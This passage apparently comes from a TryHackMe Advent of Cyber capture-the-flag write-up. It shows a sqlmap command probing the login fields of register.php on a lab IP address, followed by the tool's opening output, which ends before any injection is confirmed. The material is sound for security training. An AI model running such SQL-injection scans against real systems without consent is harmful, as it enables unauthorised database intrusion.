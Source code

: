   <img src="https://github.com/Faridbg/THM_Advent_of_Cyber/blob/main/resources/images/Task_28_%233.png" style="zoom:150%;" />

  *Finding filed injectable*

  ~~~bash
  $ python3 sqlmap.py -u http://10.10.29.192/register.php --data="log_email=hola&log_password=123&login_button=Login"
          ___
         __H__
   ___ ___["]_____ ___ ___  {1.4.9.23#dev}
  |_ -| . [)]     | .'| . |
  |___|_  [']_|_|_|__,|  _|
        |_|V...       |_|   http://sqlmap.org
  
  [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
  
  [*] starting @ 00:08:03 /2020-10-01/
  
  [00:08:03] [INFO] testing connection to the target URL
  you have not declared cookie(s), while server wants to set its own ('PHPSESSID=pu8naunti2t...2cuok6bb2d'). Do you want to use those [Y/n] y
  [00:08:06] [INFO] testing if the target URL content is stable
  [00:08:06] [INFO] target URL content is stable
  [00:08:06] [INFO] testing if POST parameter 'log_email' is dynamic
  [00:08:06] [WARNING] POST parameter 'log_email' does not appear to be dynamic
  ~~~